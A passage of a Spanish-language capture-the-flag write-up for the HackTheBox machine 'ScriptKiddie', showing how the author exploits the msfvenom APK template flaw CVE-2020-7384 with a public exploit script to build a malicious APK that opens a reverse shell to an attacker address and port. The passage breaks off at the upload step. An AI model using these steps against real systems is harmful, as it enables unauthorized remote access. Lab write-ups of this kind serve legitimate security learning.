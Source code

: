 Tras probar todas las opciones disponibles e intentar inyectar comandos, me doy cuenta de que la sección 'Payloads' contiene un campo para subir un template
file.

Suponiendo que por detrás se está ejecutando un msfvenom, busco información acerca de los template files en msfvenom.

Y encuentro un exploit que se aprovecha de estos template files. [CVE-2020-7384](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-7384){:target="\_blank"}{:rel="noopener nofollow"}

Uso un [exploit](https://github.com/nikhil1232/CVE-2020-7384){:target="\_blank"}{:rel="noopener nofollow"} de github que automatiza la explotación de esta vulnerabilidad.

Los pasos que seguí para conseguir una shell fueron los siguientes:

1. Ejecuto el exploit de github en mi máquina para generar una apk maliciosa

```bash

┌─[z3r0byte@z3r0byte]─[~/CTF/HTB/scriptKiddie/content]
└──╼ $./CVE-2020-7384.sh 

CVE-2020-7384

Enter the LHOST: 
10.10.16.38

Enter the LPORT: 
4444

Select the payload type
1. nc
2. bash
3. python
4. python3

select: 2

Enter the Directory (absolute path) where you would like to save the apk file (Hit Enter to use the current directory): 

  adding: emptyfile (stored 0%)
jar signed.

Warning: 
The signer's certificate is self-signed.
The SHA1 algorithm specified for the -digestalg option is considered a security risk. This algorithm will be disabled in a future update.
The SHA1withRSA algorithm specified for the -sigalg option is considered a security risk. This algorithm will be disabled in a future update.
POSIX file permission and/or symlink attributes detected. These attributes are ignored when signing and are not protected by the signature.

New APK file Generated
Location: "/home/z3r0byte/CTF/HTB/scriptKiddie/content/exploit.apk"

The APK file generated could be now uploaded or used for exploitation

If you have access to the vulnerable machine then run:
msfvenom -x <your newly created apk> -p android/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -o /dev/null

┌─[z3r0byte@z3r0byte]─[~/CTF/HTB/scriptKiddie/content]
└──╼ $
```
2. En el servidor web, En la parte de 'payloads' pongo de OS android, de LHOST 127.0.0.1 y subo el apk generado en el campo de _template file_